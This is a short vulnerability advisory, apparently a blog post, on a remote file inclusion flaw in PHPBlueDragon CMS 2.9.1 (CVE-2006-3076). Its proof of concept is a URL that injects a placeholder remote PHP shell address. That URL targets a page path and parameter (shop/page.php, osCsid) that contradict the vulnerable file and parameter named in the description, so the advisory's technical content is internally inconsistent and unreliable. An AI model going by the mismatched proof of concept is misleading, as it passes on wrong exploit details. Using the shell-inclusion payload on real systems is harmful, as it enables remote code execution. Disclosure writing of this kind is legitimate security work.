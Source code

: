 ```yaml
---
layout: post
title:  "CVE-2006-3076 – PHPBlueDragon CMS 2.9.1 Remote File Inclusion"
date:   2006-06-14 00:00:00
categories: security
permalink: post/CVE-2006-3076-phpbluedragon-cms-remote-file-inclusion/
---
```


### Vendor

[http://phpbluedragon.net/][phpbluedragoncms]

[phpbluedragoncms]:	http://phpbluedragon.net/	"PHPBlueDragonCMS"

> PHP Blue Dragon CMS is a web-based content management system implemented in PHP.

### Description

PHP remote file inclusion vulnerability in `software_upload/public_includes/pub_templates/vphptree/template.php` in `PHPBlueDragon CMS 2.9.1` allows remote attackers to execute arbitrary PHP code via a URL in the vsDragonRootPath parameter.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/shop/page.php?osCsid=
**~**

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076][mitre]
* [http://www.securityfocus.com/bid/18440][securityfocus]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076 "CVE-2006-3076"
[securityfocus]:	http://www.securityfocus.com/bid/18440						"SecurityFocus-18440"
